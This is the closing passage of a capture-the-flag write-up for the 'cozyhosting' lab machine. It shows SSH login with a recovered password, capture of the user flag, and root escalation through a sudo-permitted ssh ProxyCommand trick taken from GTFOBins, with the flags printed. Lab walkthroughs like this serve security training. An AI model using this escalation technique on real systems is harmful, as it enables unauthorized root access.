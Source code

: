 There's a password, `manchesterunited`, I use it to SSH into the user `josh`.

```
$ ssh josh@cozyhosting.htb
josh@cozyhosting.htb's password:
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-82-generic x86_64)
...
josh@cozyhosting:~$ cat user.txt
e1d078c09c4e025113ee74b108f407ec
```

And there's the user flag! 

Flag: `e1d078c09c4e025113ee74b108f407ec`

## Root Flag

Running `sudo -l` gives us an entry:

```
josh@cozyhosting:~$ sudo -l
[sudo] password for josh:
Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
```

Looking at [ssh entries on GTFOBins](https://gtfobins.github.io/gtfobins/ssh/#sudo) gives us an entry for sudo permissions.

```
josh@cozyhosting:~$ sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
# cat /root/root.txt
55d1af421b8828f1c8c1ccacb64347bb
```

The root flag is: 

Flag: `55d1af421b8828f1c8c1ccacb64347bb`

Success!
